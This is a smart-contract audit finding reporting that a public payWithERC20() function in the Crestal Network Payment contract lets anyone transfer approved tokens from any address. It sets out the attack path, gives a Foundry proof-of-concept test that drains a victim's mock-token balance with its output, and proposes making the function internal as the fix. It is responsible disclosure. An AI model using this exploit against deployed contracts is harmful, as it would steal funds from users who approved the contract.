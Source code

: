 <!-- vscode-markdown-toc -->

- 1. [Findings](#Findings)
- 2. [HIGH: Attacker can steal all tokens as a result of the payWithERC20() function being public](#HIGH:AttackercanstealalltokensasaresultofthepayWithERC20functionbeingpublic)
  - 2.1. [Root Cause](#RootCause)
  - 2.2. [Internal Pre-conditions](#InternalPre-conditions)
  - 2.3. [Attack Path](#AttackPath)
  - 2.4. [Impact](#Impact)
  - 2.5. [PoC](#PoC)
  - 2.6. [Mitigation](#Mitigation)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

## 1. <a name='Findings'></a>Findings

## 2. <a name='HIGH:AttackercanstealalltokensasaresultofthepayWithERC20functionbeingpublic'></a>HIGH: Attacker can steal all tokens as a result of the payWithERC20() function being public

The function `payWithERC20()` on `payment.sol` is used to facilitate payments when creating agents and when user makes a top up.
The bug happens because this function is exposed to the public and as such can be called by anyone. **An attacker can call this function to steal any approved tokens from any address, since the attacker would be able to pass the fromAddress of their choice.**

### 2.1. <a name='RootCause'></a>Root Cause

In Payment.sol the function `payWithERC20` is exposed to the public
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/Payment.sol#L25-L32
Note this is a public function and as such anyone can call this function.
Making this function a public function is the issue as it allows anyone to invoke it

### 2.2. <a name='InternalPre-conditions'></a>Internal Pre-conditions

    1. Victim has approved the contract to spend some of their tokens, which is common as we need approval to create agents

### 2.3. <a name='AttackPath'></a>Attack Path

    1. A user(ALICE) intends to interact with the contract in creating an agent
    2. Alice decides to approve the contract to spend some of her tokens(to avoid doing this every time, ALICE approves max(uint256)
    3. Attacker directly calls `payWithERC20()` passing ALICE address as the `fromAddress` and the `ATTACKER` address as the `toAddress` and Amount > 0
    4. since all the checks would pass, ALICE balance would be transfered to Attacker

### 2.4. <a name='Impact'></a>Impact

An attacker can steal all approved tokens from a given user. Since the caller can pass any address as the fromAddress, the attacker can pass any arbitrary address and steal all the tokens

When creating agent's users approve the contract to spend some tokens, if a user approves the contract to spend more than what they would need to create the agent eg max approvals, the attacker can steal any amount that was approved and has not been used yet.

### 2.5. <a name='PoC'></a>PoC

Add the following test to

```solidity
    function testStealApprovedTokens() public {
        uint256 validTokenAmount = 100 * 10 ** 18;
        address ALICE = makeAddr("ALICE");
        address ATTACKER = makeAddr("Attacker");
        mockToken.mint(ALICE, validTokenAmount);

        // Verify the mint
        uint256 balance = mockToken.balanceOf(ALICE);
        assertEq(balance, validTokenAmount, "sender does not have the correct token balance");

        // Approve the blueprint contract to spend tokens directly from the test contract
        vm.prank(ALICE);
        mockToken.approve(address(blueprint), validTokenAmount);

        // check allowance after approve
        uint256 allowance = mockToken.allowance(ALICE, address(blueprint));
        assertEq(allowance, validTokenAmount, "sender does not have the correct token allowance");

        //log balances before
        console.log("alice balance before", mockToken.balanceOf(ALICE));
        console.log("attacker balance before", mockToken.balanceOf(ATTACKER));

        // test stealing after approval
        vm.prank(ATTACKER);
        blueprint.payWithERC20(address(mockToken), validTokenAmount, ALICE, ATTACKER);

        // check balance after stealing
        console.log("alice balance after", mockToken.balanceOf(ALICE));
        console.log("attacker balance after", mockToken.balanceOf(ATTACKER));
    }
```

The above test should result in the following

```
[PASS] testStealApprovedTokens() (gas: 100398)
Logs:
  alice balance before 100000000000000000000
  attacker balance before 0
  alice balance after 0
  attacker balance after 100000000000000000000
```

### 2.6. <a name='Mitigation'></a>Mitigation

Simply making the function as an internal one would fix the issue

```diff
-    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) public {
+    function payWithERC20(address erc20TokenAddress, uint256 amount, address fromAddress, address toAddress) internal {
```
